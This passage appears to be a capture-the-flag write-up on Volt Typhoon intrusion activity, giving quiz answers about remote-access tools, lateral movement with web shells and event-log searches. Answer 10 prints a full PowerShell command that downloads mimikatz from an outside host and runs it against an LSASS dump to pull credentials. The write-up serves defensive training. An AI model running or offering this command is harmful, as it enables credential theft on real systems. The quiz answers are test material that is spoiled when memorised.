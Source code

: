 ![Reg Querey](reg.png)

**Answer:**  
```
OpenSSH, putty, realvnc
```

---

### 10. What is the full decoded command the attacker uses to download and run mimikatz?

**Answer:**  
```
Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe"; Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait
```

---

## Discovery & Lateral Movement

Volt Typhoon uses enumeration techniques to gather additional information about network architecture, logging mechanisms, successful logins, and software configurations, enhancing their understanding of the target environment for strategic purposes.

The APT has been observed moving previously created web shells to different servers as part of their lateral movement strategy. This technique facilitates their ability to traverse through networks and maintain access across multiple systems.

### 11. What event IDs does the attacker search for using wevtutil?  
_Answer Format: Increasing order separated by a space._
